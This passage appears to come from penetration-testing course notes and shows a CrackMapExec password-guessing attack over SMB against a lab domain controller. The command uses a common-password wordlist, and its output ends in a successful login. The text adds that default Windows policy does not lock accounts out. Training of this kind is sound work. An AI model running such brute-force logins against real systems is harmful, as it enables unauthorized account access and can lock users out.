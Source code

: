 ### **Launching the Attack with CrackMapExec**

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec. We can use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller. Here is the command to do so:

```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 (name:DC-PAC) (domain:dac.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

In this example, CrackMapExec is using SMB to attempt to logon as user (`-u`) `bwilliamson` using a password (`-p`) list containing a list of commonly used passwords (`/usr/share/wordlists/fasttrack.txt`). If the admins configured an account lockout policy, this attack could lock out the account that we are targeting. At the time of this writing (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

### **Event Logs from the Attack**

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (3).png" alt=""><figcaption></figcaption></figure>
